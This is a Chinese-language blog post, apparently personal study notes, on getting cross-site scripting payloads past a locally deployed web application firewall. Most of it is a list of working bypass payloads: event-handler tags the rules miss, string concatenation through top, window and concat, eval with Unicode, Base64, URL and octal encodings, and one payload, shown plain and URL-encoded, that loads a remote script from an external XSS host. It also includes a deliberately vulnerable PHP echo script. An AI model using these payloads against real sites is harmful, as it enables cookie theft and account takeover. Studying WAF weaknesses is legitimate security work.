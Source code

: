   最近在学习xss方面的知识，涉及到waf的测试，在这里做个记录，方面查阅。

  ## 0x00 搭建环境
  - - -
  本地搭建测试waf测试，xss相关防护规则全部开启。
  
 ![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1sv90art7j30l10c0myc.jpg)
 
  ## 0x01 Self-Xss绕过
  - - -

  测试脚本
  ```php
  <?php   
    $input = @$_REQUEST["xss"];
    echo "<div>".$input."</div>"
  ?>
  ```
  
  首先思路就是一些被waf**遗漏的标签**，暂时不考虑**编码**或者**拼接字符串**这类思路，我们直接拿来测试。   

  `<video src=1 onerror=alert(/xss/)>`绕过。
  
  ![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv4ytym1j30uj08lq3m.jpg)
  
  类似的标签还有`<audio src=x onerror=alert(/xss/)>`
  
  ![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv87ifeuj30uj0933z8.jpg)
  
  除此之外以下几个`payload`都可以绕过。
  ```javascript
  <body/onfocus=alert(/xss/)>
  <details open ontoggle=alert(/xss/)>
  <button onfocus=alert(/xss/) autofocus>
  
  ```
  利用**伪协议**
  
  waf拦截
  
  ![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvkcpm4uj30uj08174y.jpg)
  
  加上一个**xmlns属性**即可绕过
  
  ![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvojz1hmj30uj08kdgj.jpg)
  
  实际上，我测试的waf是免费使用的，所以有些厂商可以象征性的取一些样本，拦截一下常见的标签，如果你购买了厂商的高级服务，那我们绕过就有难度，然而大多数网站还是使用免费版的多。
  
  ## 拼接字符类
  - - -
  拼接字符串的话，一般把关键字拆分成几个字符串，再拼接执行，结合**top**,**concat**之类的。
  
  ### top对象
  - - -
  
  top输出字符
  
  ![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uep4k2whj30ao097dfs.jpg)
  
  或者打印cookie
  
  ![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueqqxro8j30f0091aa3.jpg)
  
  top可以连接`对象`以及`属性`或`函数`，那么我们可以做到很多，例如:
  
  直接top连接一个alert函数
  
  ![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uewncru3j30x60duwem.jpg)
  
  `<details open ontoggle=top.alert(1)>`也可以绕过waf
  
  ![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueypy79kj30uj093t9h.jpg)
  
  `top['alert'](1)`也可弹窗，但waf拦截
  
  ![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufadg61cj30uj06vt95.jpg)
  
  绕过的话，很简单用`prompt`方法或者`confirm`都可以
  
  `<details open ontoggle=top['prompt'](1)>`
  
  ![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufd5cic3j30uj08yaau.jpg)
  
  如果我说一定要用`alert`的话就要用到`接字符串`了。
  
  `<details open ontoggle=top['al'%2b'ert'](1)>` %2b为url编码的+
  
  ![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufh1i5dkj30uj08jt9g.jpg)
  
  eval函数执行
  
  `<details open ontoggle=top.eval('ale'%2B'rt(1)') >`
  
  ![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug4njpphj30uj090aau.jpg)
  
  eval直接用也可以弹
  
  `<details open ontoggle=eval('alert(1)') >`
  
  ![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug8l4j2ej30uj08vjs5.jpg)

  这里为什么说到eval呢？因为如果eavl不拦截的话，我们可以测试各种编码，当然这是在牺牲长度的前提下。
  
  例如： `Unicode编码`
  
  `<details open ontoggle=eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029') >`
  
  ![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ugbw6c1gj30uj08ujs6.jpg)
  
  其他：
  ```html
  Base64编码：
  <details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
  eval拦截的话，可以试试，把 e Unicode编码
  <details open ontoggle=\u0065val(atob('YWxlcnQoMSk=')) >
  url编码：  
  <details open ontoggle=%65%76%61%6c(atob('YWxlcnQoMSk=')) >
  url编码： 
  <details open ontoggle=eval('%61%6c%65%72%74%28%31%29') >
  JS8编码：
  <details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
  Ascii码绕过：
  <details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  其他自测
  
  ```
  引用外部url，运用基于DOM的方法创建和插入节点把外部JS文件注入到网页。
  ```html
  <details open ontoggle=eval("appendChild(createElement('script')).src='http://xss.tf/eeW'") >
  ```
 ![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uh5hp1a8j30uj0b1jsy.jpg)
  
  url编码
  ```html
  <details open ontoggle=eval(%61%70%70%65%6e%64%43%68%69%6c%64%28%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%78%73%73%2e%74%66%2f%65%65%57%27) >
  ```
  ![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uhaxb0t2j30uj09uwg1.jpg)
  
  ### window对象
  - - -
  
  window和top类似，比如：
  `<img src=x onerror=window.alert(1) >`
  
  拼接一样的
  `<img src=x onerror=window['al'%2B'ert'](1) >`
  
  其他操作，参照上一章。
  
  
  通过赋值，也是我们常见的，看个例子：
  ```html
  <img src=x onerror=_=alert,_(/xss/) >
  <img src=x onerror=_=alert;_(/xss/) >
  <img src=x onerror=_=alert;x=1;_(/xss/) >
  ```
  ![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v3d5hdwmj30uj09m3za.jpg)
  
  短一点的`<body/onfocus=_=alert,_(123)>`
  
  ![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v3l03yfxj30uj097mxw.jpg)
  
  函数赋值，也比较常见
  ```
  <body/onfocus="a=alert,a`/xss/`">
  
  ```
  
  ### concat
  - - -
  
  `concat方法`在实际应用中，不仅仅可以用于连接两个或多个数组，还可以合并两个或者多个字符串。
  
  ![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v96uzg3zj30el07a3yk.jpg)
  
  例如： 
  `<iframe onload=location='javascript:alert(1)'>`拦截
  
  ![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v9dvxe1jj30uj06tq3d.jpg)
  
  使用concat来拼接字符串`javascript:alert(1)`
  
  ```html
  <iframe onload=location='javascri'.concat('pt:aler','t(1)')>
  ```
  
  ![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v9hzwbnbj30uj09gmxy.jpg)
  
